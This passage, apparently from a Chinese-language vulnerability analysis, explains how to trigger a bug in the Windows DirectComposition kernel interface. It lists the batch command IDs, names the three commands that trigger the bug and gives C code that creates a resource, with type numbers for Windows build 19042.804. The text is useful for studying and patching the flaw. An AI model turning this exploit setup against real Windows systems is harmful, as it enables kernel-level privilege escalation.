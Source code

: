 创建通道之后，可以使用NtDCompositionProcessChannelBatchBuffer系统调用发送几个命令。每个命令都有自己的格式，且大小不同。

```
enum DCOMPOSITION_COMMAND_ID 
`{` 
  ProcessCommandBufferIterator, 
  CreateResource, 
  OpenSharedResource, 
  ReleaseResource, 
  GetAnimationTime, 
  CapturePointer, 
  OpenSharedResourceHandle, 
  SetResourceCallbackId, 
  SetResourceIntegerProperty, 
  SetResourceFloatProperty, 
  SetResourceHandleProperty, 
  SetResourceHandleArrayProperty, 
  SetResourceBufferProperty, 
  SetResourceReferenceProperty, 
  SetResourceReferenceArrayProperty, 
  SetResourceAnimationProperty, 
  SetResourceDeletedNotificationTag, 
  AddVisualChild, 
  RedirectMouseToHwnd, 
  SetVisualInputSink, 
  RemoveVisualChild 
`}`;
```

映射的段地址pMappedAddress用于存储一批命令。在pMappedAddress存储几个命令之后，调用者可以调用NtDCompositionProcessChannelBatchBuffer来处理这些命令。

要触发漏洞，我们需要使用3个命令:
- CreateResource
- SetResourceBufferProperty
- ReleaseResource
首先，`CreateResource`用于创建特定类型的对象。`CreateResource`命令的大小为16字节，格式如下。根据Windows版本不同，资源类型可能有所不同。可以通过分析`win32kbase!DirectComposition: CApplicationChannel: CreateResource`来轻松地获得资源类型编号。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c3885f198a6bf23f.png)

```
// Create Resource 
*(DWORD*)(pMappedAddress) = CreateResource; 
*(HANDLE*)(pMappedAddress + 4) = 1; // Resource ID (a unique number) 

// For example, on Windows 20H2, 19042.804: 
//   0x58 == CInteractionTrackerMarshaler 
//   0x59 == CInteractionTrackerBindingManagerMarshaler 
*(DWORD*)(pMappedAddress + 8) = 0x59; // Resource Type 
*(DWORD*)(pMappedAddress + 12) = FALSE; 

ntStatus = NtDCompositionProcessChannelBatchBuffer(hChannel, 16, &amp;dwArg1, &amp;dwArg2);
```
